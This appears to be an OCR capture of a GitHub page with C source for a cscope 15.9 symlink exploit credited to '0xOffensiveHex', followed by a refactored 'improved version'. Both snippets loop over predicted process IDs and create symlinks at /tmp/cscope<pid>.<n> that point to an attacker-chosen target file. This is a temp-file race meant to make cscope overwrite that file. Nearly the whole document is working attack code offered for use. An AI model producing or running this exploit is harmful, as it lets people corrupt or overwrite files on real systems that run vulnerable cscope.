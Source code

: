 ```c
        fprintf(stdout, "\n --[ Cscope Exploit ]--\n"\
                        " version 15.9 < Affected \n" \
                        " By: 0xOffensiveHex\n" \
                        " Twitter: <@itRashid>\n\n");
                        
        if (ac != 3) {
                fprintf(stderr, "Usage: %s <target> <max file creation>\n", av[0]);
                return 1;
        }
        
        cur=getpid();
        lst=cur+atoi(av[2]);
        
        fprintf(stdout, " -> Current process id is ..... [%5d]\n" \
                        " -> Last process id is ........ [%5d]\n", cur, lst);
        
        while (++cur != lst) {
                snprintf(buffer, BSIZE, "%s/cscope%d.%d", P_tmpdir, cur, (i==2) ? --i : ++i);
                symlink(av[1], buffer);
        }

        return 0;
}      
```

**Improved Version of exploit**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

#define BSIZE 64

typedef struct {
    char target[BSIZE];
    int max_file_creation;
} CscopeExploit;

void initExploit(CscopeExploit *exploit, char *target, int max_file_creation) {
    snprintf(exploit->target, sizeof(exploit->target), "%s", target);
    exploit->max_file_creation = max_file_creation;
}

void runExploit(const CscopeExploit *exploit) {
    pid_t cur = getpid();
    pid_t lst = cur + exploit->max_file_creation;
    u_int i = 0;

    fprintf(stdout, "\n --[ Cscope 15.9 Symlink (Symbolic Link) Exploit ]--\n"
                    " Tested OS: Kali Linux 2024.1 / Ubuntu 22.04\n"
                    " \n"
                    " \n\n");

    fprintf(stdout, " -> Current process id is ..... [%5d]\n"
                    " -> Last process id is ........ [%5d]\n", cur, lst);

    while (++cur != lst) {
        char buffer[BSIZE];
        snprintf(buffer, sizeof(buffer), "/tmp/cscope%d.%d", cur, (i == 2) ? --i : ++i);
        symlink(exploit->target, buffer);
    }
}

```